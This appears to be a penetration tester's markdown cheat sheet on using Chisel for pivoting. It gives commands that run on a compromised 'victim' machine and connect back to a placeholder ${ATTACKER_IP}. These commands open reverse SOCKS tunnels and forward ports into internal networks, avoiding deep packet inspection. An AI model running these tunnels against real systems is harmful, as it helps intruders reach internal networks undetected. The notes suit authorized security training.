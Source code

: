 # Chisel
if you get:


> /chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32` not found (required by ./chisel)
go [here](https://github.com/jpillora/chisel/releases) for the appropriate release.

Chisel makes it possible to do HTTP tunneling encrypted such that deep packet inspection won't be able to look into the details of the traffic.

Note that you can state multiple forwarding statements in a single `chisel client ...` command.


## Dynamic Port Forwarding


We run a chisel server on `${ATTACKER_IP}` which allows us to connect back from an owned machine:

```
chisel server --port ${ATTACKER_PORT} --reverse
```

From the `${OWNED_IP0}`, run 

```
chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:socks
```
This creates a SOCKS tunnel (bound to 1080 by default). <--- USE 1080 as proxy port, not `${ATTACKER_PORT}`. Also when setting up the proxy in the browser!

If you want it to not block your current shell, do:

```
chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:socks > /dev/null 2>&1 &
```

If you don't want to use port 1080, do:

```
chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:${SOME_PORT}:socks
```

now, use `${SOME_PORT}` as the socks proxy port.


Once the client and server is setup, we can access targets from the point of view of `${OWNED_IP0}` by using proxychains4:

Add to proxychains4.conf:
```
socks5 127.0.0.1 1080
```

```
proxychains4 -f proxychains4.conf ${SOME_COMMAND} 
```


## Local Port Forwarding

Start the server without the `--reverse` arg on your kali machine:

```
chisel server -p ${ATTACKER_CHISEL_PORT} 
```


on the victim (e.g. a machine that bridges the gap between a WAN and a DMZ network):

```
chisel client ${ATTACKER_IP}:${ATTACKER_CHISEL_PORT} ${VICTIM_LISTENING_PORT}:${TARGET_IP}:${TARGET_PORT}
```

For instance, if you want to expose ports 80 and 443 from your attack box to the internal network,
from the bridging machine, run:

```
./chisel client ${ATTACKER_IP}:${ATTACKER_CHISEL_PORT} 8380:${ATTACKER_IP}:80 4443:${ATTACKER_IP}:443
```

Now, from the internal network, you can hit port 8380 on the bridging victim (remember to use the internal IP),
to hit port 80 on the attack box, and port 4443 to hit port 443 on the attack box.


## Remote Port Forwarding 

if you want to expose a single port on an owned machine `IP0`, you can do:


```
./chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:${ATTACKER_PORT1}:${OWNED_IP}:${OWNED_PORT}
```

This allows traffic to go between `$ATTACKER_PORT1` and `${OWNED_IP}:${OWNED_PORT}`.
For exposing a local port on a machine do:

```
./chisel client ${ATTACKER_IP}:3333 R:9000:127.0.0.1:8000
```
Now, you can access the website internally exposed on `127.0.0.1:8000` on the target machine by going to `localhost:9000` in firefox.

Note that you can do multiple port forwarding statements with one client call.
In case you need to forward multiple ports.
